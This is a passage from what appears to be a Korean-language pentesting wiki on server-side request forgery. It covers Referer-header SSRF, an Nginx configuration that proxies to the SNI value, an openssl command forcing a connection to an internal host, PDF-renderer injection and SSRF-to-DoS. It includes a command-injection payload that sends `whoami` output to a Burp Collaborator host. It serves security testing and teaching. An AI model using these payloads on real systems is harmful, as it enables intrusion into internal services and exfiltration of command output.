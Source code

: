 
## Referrer 헤더를 통한 SSRF 및 기타 방법

서버의 분석 소프트웨어는 종종 Referrer 헤더를 기록하여 들어오는 링크를 추적하는데, 이는 애플리케이션을 Server-Side Request Forgery (SSRF) 취약점에 노출시키는 실수로 이어집니다. 이는 분석 도구가 Referrer 헤더에 언급된 외부 URL을 방문하여 참조 사이트 콘텐츠를 분석하기 때문입니다. 이러한 취약점을 발견하기 위해 Burp Suite 플러그인 "**Collaborator Everywhere**"를 사용하는 것이 좋으며, 이는 분석 도구가 Referer 헤더를 처리하는 방식을 활용하여 잠재적인 SSRF 공격 표면을 식별합니다.

## 인증서의 SNI 데이터를 통한 SSRF

간단한 설정을 통해 어떤 백엔드에도 연결할 수 있는 잘못된 구성은 다음과 같은 Nginx 구성 예제로 설명됩니다:
```
stream {
server {
listen 443;
resolver 127.0.0.11;
proxy_pass $ssl_preread_server_name:443;
ssl_preread on;
}
}
```
이 구성에서는 서버 이름 표시 (SNI) 필드의 값이 백엔드 주소로 직접 사용됩니다. 이 설정은 서버 측 요청 위조 (SSRF) 취약점을 노출시키며, SNI 필드에 원하는 IP 주소나 도메인 이름을 지정함으로써 악용될 수 있습니다. `openssl` 명령을 사용하여 `internal.host.com`과 같은 임의의 백엔드에 연결을 강제하는 악용 예제는 아래에 제시되었습니다:
```bash
openssl s_client -connect target.com:443 -servername "internal.host.com" -crlf
```
## [Wget 파일 업로드](../file-upload/#wget-file-upload-ssrf-trick)

## 명령 주입을 통한 SSRF

다음과 같은 페이로드를 시도해 볼 가치가 있습니다: `` url=http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami` ``

## PDF 렌더링

웹 페이지가 제공한 정보로 PDF를 자동으로 생성하는 경우, PDF 생성자(서버) 자체에서 실행되는 JS를 삽입할 수 있으며, 이를 통해 SSRF를 악용할 수 있습니다. [**여기에서 자세한 정보를 찾을 수 있습니다**](../xss-cross-site-scripting/server-side-xss-dynamic-pdf.md)**.**

## SSRF에서 DoS로

여러 세션을 생성하고 세션에서 SSRF를 이용하여 무거운 파일을 다운로드하려고 시도하세요.

## SSRF PHP 함수

{% content-ref url="../../network-services-pentesting/pentesting-web/php-tricks-esp/php-ssrf.md" %}
[php-ssrf.md](../../network-services-pentesting/pentesting-web/php-tricks-esp/php-ssrf.md)
{% endcontent-ref %}
